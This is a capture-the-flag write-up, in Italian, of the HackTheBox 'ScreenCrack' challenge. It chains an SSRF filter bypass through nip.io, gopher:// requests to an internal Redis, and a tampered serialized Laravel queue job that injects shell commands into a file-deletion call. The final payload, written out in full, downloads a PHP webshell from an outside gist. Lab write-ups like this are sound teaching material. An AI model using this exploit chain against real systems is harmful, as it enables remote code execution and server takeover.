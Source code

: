 # ScreenCrack HTB challenge WRITEUP
[Exploit.py](exploit.py) Made by: [Gianlush](https://github.com/Gianlush/), [simonecris](https://github.com/simonecris)

## step 1: tentativo di SSRF
Non si può accedere banalmente all'indirizzo localhost poichè il backend fa un controllo e filtra l'url che viene inserito nel form. Quindi il primo passo è stato cercare un metodo per bypassare quei filtri. La soluzione trovata è stata utilizzare un dominio particolare (nip.io) che consente di personalizzare la risoluzione dns di qualsiasi url.

```payload = "http://127-0-0-1.nip.io"```

![step1](images/step1.png)

## step 2: ricerca servizi vulnerabili

Runnando il docker della challenge, ed avviando una shell è possibile notare la presenza di un altro servizio sulla porta 6379, cioè REDIS (un DB cache-based). Tuttavia il payload precedente non funzionava per accedere a questo servizio quindi cercando online soluzioni per effettuare ssrf abbiamo notato che è possibile comunicarci usando url scheme differenti (quali dict:// o gopher://).

```payload = dict://127-0-0-1.nip.io/info```

![step2](images/step2.png)

Questo payload consente di eseguire comandi sul client redis, utilizzando i ":" come spazio (scoperto per tentativi).

### step 2.5: redis rabbit hole

Seguendo la documentazione di Redis e smanettando con i suoi comandi abbiamo tentato di eseguire un qualche tipo di code injection, la quale sarebbe stato possibile se non fosse per la presenza di una flag (enable-protected-config) che rende il redis.conf immutabile e che abbiamo cercato di bypassare (inutilmente).

![step3](images/step3.png)

## step 3: follow the input

Dopo aver rinunciato a quella strada abbiamo deciso di seguire meglio il flusso del nostro input, notando che nel file [FileQueue.php](challenge/app/Message/FileQueue.php) è presente una chiamata a system() che potrebbe essere un possibile punto di attacco qualora fossimo in grado di manipolare la variabile $filepath. Questa strada, inzialmente scartata poichè sembrava impossibile manipolare il valore della variabile, è diventanta nuovamente possibile una volta scoperta la console Redis, ed in particolare un key al suo interno che memorizza tutti i file caricati.

![step4](images/step4.png)

Nel frattempo ci siamo spostati dentro al docker per utilizzare redis in maniera più agevole e capirci meglio, ed è qui che abbiamo visualizzato il contenuto delle flag sopracitate, che sarebbe stato altrimenti impossibile tramite web utilizzando il protocollo dict, visto che la key conteneva i ":" che sarebbe invece stati interpretati come spazi:

![step5](images/step5.png)


Manipolando quei dati, e facendoci stampare di volta in volta l'url dato in pasto a curl nel file SiteShotService.php ed il pathfile nel file FileQueue.php abbiamo visto che è possibile modificare l'esecuzione del comando system("rm "filepath).

In particolare, modificando il campo uuid ed inserendo del codice, una volta trascorsi i 600 secondi del [job-runner.sh](config/job-runner.sh) la queue viene svuotata, il file eliminato e quindi il nostro codice eseguito.
### PoC:
```payload = "uuid\\\";s:51:\\\"d9b86d9c-cf9f-40bf-a641-a0b76e432c2a;touch funziona\\\";```
Utilizzando il comando lset di Redis per modificare l'entry come detto si ottiene il risultato desiderato:

![step6](images/step6.png)

## step 4: un passo indietro rispetto a dict://
A questo punto sono sorti i problemi con il il protocollo dict poichè questo richiedeva l'uso dei ":" come space, cosa che andava in contrasto con i ":" usati da redis. Senza trovare un modo di bypassare il problema abbiamo riprovato l'utilizzo di gopher. Questo infatti sembrava funzionare bene con curl da terminale:

![step7](images/step7.png)

Inoltre utilizza il %20 come spazio. L'unico problema è che, poichè la connessione non termina, quando usato tramite la webapp va in timeout. Questo ci ha fatto credere inizialmente che non funzionasse, ma in realtà anche senza ricevere una risposta, i nostri comandi passano e vengono eseguiti.

Dopo vari tentativi abbiamo capito che la preparazione del payload per Gopher richiedeva semplicemente un url encoding su tutto il payload. Per estrarre la flag abbiamo usato una php shell reperibile tramite wget, da qui il seguente payload (per esteso):

```payload = gopher://127-0-0-1.nip.io:6379/_LSET laravel_database_queues:default 0 "{\"uuid\":\"733ba127-c15e-46b7-baef-d511b91af345\",\"displayName\":\"App\\\\Jobs\\\\rmFile\",\"job\":\"Illuminate\\\\Queue\\\\CallQueuedHandler@call\",\"maxTries\":null,\"maxExceptions\":null,\"failOnTimeout\":false,\"backoff\":null,\"timeout\":null,\"retryUntil\":null,\"data\":{\"commandName\":\"App\\\\Jobs\\\\rmFile\",\"command\":\"O:15:\\\"App\\\\Jobs\\\\rmFile\\\":1:{s:9:\\\"fileQueue\\\";O:21:\\\"App\\\\Message\\\\FileQueue\\\":3:{s:8:\\\"filePath\\\";s:45:\\\"\\/src\\/09da39b3-ec27-4a2e-b9bd-1d9e3a6fe220.txt\\\";s:4:\\\"uuid\\\";s:213:\\\"09da39b3-ec27-4a2e-b9bd-1d9e3a6fe220;cd public;wget https:\\/\\/gist.githubusercontent.com\\/joswr1ght\\/22f40787de19d80d110b37fb79ac3985\\/raw\\/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4\\/easy-simple-php-webshell.php;touch asd\\\";s:3:\\\"ext\\\";s:3:\\\"txt\\\";}}\"},\"id\":\"4ARs2xRDfUDqwEf3x5hneSeeRA0zkjaL\",\"attempts\":0}"```

 Una volta URL-ENCODATO, inviato ed attesi in 10min che il processo job-runner.sh svuotasse la queue ed eseguisse il nostro comando, abbiamo ottenuto una shellphp e estratto la flag tramite cat.

 ![step8](images/step8.png)
